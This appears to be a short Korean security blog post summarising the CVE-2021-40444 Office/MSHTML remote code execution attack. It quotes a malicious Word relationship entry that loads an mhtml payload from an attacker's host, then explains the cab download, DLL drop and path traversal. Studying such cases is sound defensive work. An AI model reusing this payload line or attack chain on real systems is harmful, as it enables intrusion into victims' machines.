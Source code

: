 ```yaml
---

title: "[하루한줄] Remote Code Execution 0-Day (CVE-2021-40444) Hits Windows, Triggered Via Office Docs"

author: j0ker

tags: [j0ker, cve-2021-40444, office, word, ole, html, path traversal] 

categories: [1day1line] 

date: 2021-09-16 14:00:00 

cc: true

index_img: /img/1day1line.png

---
```


## URL

https://www.trendmicro.com/en_us/research/21/i/remote-code-execution-zero-day--cve-2021-40444--hits-windows--tr.html



## Target

-  Microsoft Office Word

  

## Explain
최근 트위터가 이거 때문에 핫하죠. 역시 실제 공격에 사용된 취약점 입니다!

일단 워드 파일 안에 있는 relationship 파일을 보면 아래와 같은 수상한 URL이 존재합니다.

```powershell
<Relationship Id="rId6" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject>" Target="mhtml:<http://hidusi.com/e8c76295a5f9acb7/side.html!x-usc:http://hidusi.com/e8c76295a5f9acb7/side.html>" TargetMode="External" />
```

Relationship 파일에는 보통 내/외부로부터 가져오는 리소스들을 담고 있다고 합니다. 해커는 위 링트에서 mhtml 파일을 가져오는데, mhtml 파일은 이미지, 플래시 애니메이션 등 모든 리소스가 한꺼번에 저장되어 있는 html 파일입니다.

이렇게되면 원격 서버에 있는 mhtml 프로토콜을 통해 side.html 파일이 IE에 로드되어 안에 있는 자바스크립트가 실행됩니다. 자바스크립트에서는 cab 파일을 다운 받고 실행합니다. cab 파일에서는 dll 파일을 championship.inf라는 이름으로 저장하고 path traversal을 통해 해당 파일을 로드하여 코드를 실행합니다.
